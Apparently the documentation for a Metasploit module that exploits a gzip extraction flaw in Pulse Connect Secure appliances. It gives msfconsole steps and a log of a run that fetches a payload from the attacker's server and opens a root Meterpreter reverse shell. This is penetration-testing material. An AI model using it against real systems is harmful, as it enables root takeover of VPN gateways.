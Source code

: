## Vulnerable Application

The Pulse Connect Secure appliance before 9.1R9 suffers from an uncontrolled gzip extraction vulnerability which allows an authenticated attacker
to overwrite arbitrary files, resulting in Remote Code Execution as root. Admin credentials are required for successful exploitation.

NCC Group [wrote](https://research.nccgroup.com/2020/10/26/technical-advisory-pulse-connect-secure-rce-via-uncontrolled-gzip-extraction-cve-2020-8260/)
in their findings a few different ways to achieve RCE through the gzip vulnerability. This exploit utilizes the Template Toolkit method
which works up to 9.1R8 (possibly more), whereas the other methods were patched earlier.  With this method, since the payload is sent in the perl
template, there are also no bad characters.

Of note, MANY binaries are not in `$PATH`, but are located in `/home/bin/`.  Thanks to @wvu for pointing that out.

Pulse Secure Connect trial can be downloaded [here](https://www.pulsesecure.net/trynow/pulse-connect-secure/).

## Verification Steps

1. Install the server
1. Start msfconsole
1. Do: `use exploit/linux/http/pulse_secure_gzip_rce`
1. Do: `set rhosts [IP]`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a root shell

## Options

### cmd

If this option is set, a single command will be run instead of the payload. Defaults to `` (empty)

## Scenarios

### Pulse Connect Secure 9.1R8 build 7453, Meterpreter Payload

```
msf > use exploit/linux/http/pulse_secure_gzip_rce 
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf exploit(linux/http/pulse_secure_gzip_rce) > set RHOSTS 192.168.159.100
RHOSTS => 192.168.159.100
msf exploit(linux/http/pulse_secure_gzip_rce) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/pulse_secure_gzip_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf exploit(linux/http/pulse_secure_gzip_rce) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(linux/http/pulse_secure_gzip_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Version 9.1, revision 8, build 7453 found
[+] The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/m6x4OtFXogsSCK
[*] Local IP: http://192.168.250.87:8080/m6x4OtFXogsSCK
[*] Exploit trigger will be at /dana-na/auth/setcookie.cgi with a header of XLQOBGKB
[*] Requesting backup config page
[*] Uploading encrypted config backup
[*] Triggering RCE
[*] Client 192.168.159.100 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.63.0 OpenSSL/1.0.2n zlib/1.2.3) requested /m6x4OtFXogsSCK
[*] Sending payload to 192.168.159.100 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.63.0 OpenSSL/1.0.2n zlib/1.2.3)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.100:57548) at 2020-12-07 10:52:54 -0500
[*] Command Stager progress - 100.00% done (122/122 bytes)
[*] Logging out to prevent warnings to other admins
[*] Server stopped.

meterpreter > getuid
Server username: root @ localhost2 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.159.100
OS           :  (Linux 2.6.32-00025-g841d072-dirty)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

